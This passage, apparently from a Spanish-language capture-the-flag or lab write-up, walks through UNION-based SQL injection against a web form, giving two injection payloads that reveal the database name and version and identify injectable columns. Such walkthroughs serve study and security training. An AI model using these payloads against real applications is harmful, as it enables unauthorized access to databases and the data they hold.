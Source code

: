 
No hay ningun error y en consecuencia, podremos empezar a inyectar en los campos. Veamos la base de datos y su version:

```sql
'union select database(),version(),null -- -
```

Con esa consulta la salida es la siguiente:

![Pasted-image-20240721014937.png](./assets/Pasted-image-20240721014937.png)


Podemos concluir que a partir del segundo campo es inyectable. Comprobemos:

```sql
'union select null,version(),database() -- -
```

Como podemos ver, ahora si tenemos una salida en ambos campos de la tabla. Entonces, veamos todas las bases de datos que pueda tener. 

![Pasted-image-20240721015128.png](./assets/Pasted-image-20240721015128.png)


Si buscamos por la version de la base de datos en google, nos encontraremos con lo siguiente:
